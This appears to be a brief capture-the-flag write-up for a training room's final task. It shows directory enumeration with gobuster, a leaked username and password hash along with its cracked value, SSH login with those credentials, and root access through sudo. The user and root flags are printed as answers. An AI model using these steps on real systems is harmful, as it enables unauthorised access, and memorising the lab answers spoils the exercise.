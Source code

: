 ## [Task 24] [Section 7 - Final Exam]: Good Luck :D

### Found /secret dir with gobuster

#### found file /secret/secret.txt
```
nyan:046385855FC9580393853D8E81F240B66FE9A7B8
```

#### cracked password
```
nyan
```

#### ssh with found creds
```
$ ssh nyan@<IP>
```

#### Get the user flag
```
$ cat user.txt

supernootnoot
```

#### Get the root flag
```
$ sudo -l
```

Looks like user `nyan` has root permissions. EASY!

```
$ sudo su
$ cat /root/root.txt
```


